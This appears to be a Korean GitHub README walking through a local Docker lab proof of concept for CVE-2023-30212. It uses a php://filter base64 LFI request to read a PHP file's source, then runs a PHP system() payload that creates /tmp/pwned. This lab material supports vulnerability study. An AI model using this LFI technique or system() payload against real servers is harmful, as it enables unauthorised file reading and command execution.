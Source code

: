 ```bash
docker-compose up -d
```

컨테이너 이름: cve-2023-30212-cve-lfi-1

Apache 서버가 실행되며 http://localhost:8088에서 접속 가능

2. LFI 기반 악성 파일 소스 확인
아래 URL을 호출하여 malicious.php의 내용을 base64로 인코딩된 형태로 확인합니다:

```bash
http://localhost:8088/vulnerable.php?file=php://filter/convert.base64-encode/resource=malicious.php
```
<img width="508" alt="base64" src="https://github.com/user-attachments/assets/d428e22f-0d05-4c16-94e5-299abf9eb319" />

출력 결과를 디코딩하면 아래 PHP 코드가 확인됩니다:
```php
<?php system("touch /tmp/pwned"); ?>
```
<img width="470" alt="image" src="https://github.com/user-attachments/assets/14cd4d88-bf72-4842-b886-e8a0cba0338c" />

3. 명령어 실행 및 결과 확인
아래 URL을 호출하여 실제로 명령어를 실행합니다:

```bash
http://localhost:8088/malicious.php
```
명령어 실행 후, /tmp/pwned 파일이 생성되어야 합니다.

```bash
docker exec -it cve-2023-30212-cve-lfi-1 ls /tmp
```
결과에 pwned 파일이 존재하면 성공입니다.

<img width="689" alt="pwned파일" src="https://github.com/user-attachments/assets/d2836c65-9a90-4728-91b9-5910ea6fea6c" />

## 결과 요약
php://filter 기반 LFI 취약점을 통해 악성 파일 내용 확인 및 디코딩 성공

system() 함수가 포함된 악성 PHP 호출을 통해 임의 명령어 실행 성공

/tmp/pwned 파일이 생성됨으로써 PoC 검증 완료

